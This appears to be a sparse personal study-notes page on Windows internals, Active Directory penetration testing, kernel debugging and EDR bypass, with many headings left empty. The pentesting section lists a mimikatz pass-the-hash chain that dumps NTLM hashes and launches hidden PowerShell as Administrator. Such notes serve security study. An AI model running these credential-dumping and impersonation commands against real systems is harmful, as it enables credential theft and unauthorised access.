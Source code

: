 # Windows Host security features

# Security in AD network

# Windows related
### Process monitoring
Useful for trackig filesystem, Process, Threads, DLL activity


# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash**    - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"```, now migrate to the new created process as the impersonated user ```steal_token 1234```
- **PassTheTicket**  - ?????????????????????
- OverPassTheHash    -  

# Debugging Kernel
Steps
* Enable kernal debugging and get key - ```bcdedit debug on``` ```bcdedit net hostip:192.168.0.101 port:55xxx``` ```bcdedit /dbgsetting net hostip:192.168.0.101 port:55xxx```
* Now open windbg -> Attach kernel -> enter port and the key from above command
* kd>.reload /f - Command to reload symbols

### Windows Operating System Architecture
- https://i.ytimg.com/vi/PuDlDtqfXtk/maxresdefault.jpg
- User mode
    - kernel32.dll, USER32.dll, advapi32.dll, ntdll.dll
- Kernel mode
    -  ntoskrnl.exe, hal.dll, win32k.sys 
1. Inturrupts
- Trap - Interrupts

# EDR bypass and malware developement
- Evading EDR Book- https://learning.oreilly.com/library/view/evading-edr
- Grey hat GoLang
